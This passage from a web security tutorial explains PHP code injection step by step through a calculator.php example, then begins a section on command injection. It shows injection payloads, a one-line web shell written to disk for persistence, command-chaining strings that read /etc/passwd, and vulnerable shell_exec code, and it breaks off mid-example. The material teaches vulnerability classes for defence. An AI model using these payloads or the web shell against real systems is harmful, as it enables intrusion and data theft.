 **Step 1:** Attacker finds vulnerable parameter
```
POST /calculator.php
code=2+2
```

**Step 2:** Tests for code execution
```
POST /calculator.php
code=<?php echo "Hello World"; ?>
```

**Step 3:** Escalates to system access
```
POST /calculator.php
code=<?php system('whoami'); ?>
```

**Step 4:** Establishes persistent access
```
POST /calculator.php
code=<?php file_put_contents('shell.php', '<?php system($_GET["cmd"]); ?>'); ?>
```

**Real-world impact:**
- **File system access:** Read, write, delete any file
- **Database access:** Connect to databases, extract data
- **Network access:** Scan internal networks, download malware
- **Privilege escalation:** Exploit local vulnerabilities for root access

#### **2. Command Injection**

**What it is:**
Command injection occurs when user input is passed to system command execution functions.

**Attack payloads:**
```python
"; ls -la",           # List files after legitimate command
"| whoami",           # Pipe output to show current user
"&& cat /etc/passwd", # Show system users after successful command
```

**Vulnerable code example:**
```php
// Vulnerable: User input in system command
$ip = $_GET['ip'];
$result = shell_exec("ping -c 4 " . $ip);
echo $result;
```

**How the attack works:**

**Legitimate use:**
```
GET /ping.php?ip=google.com
Executes: ping -c 4 google.com
```
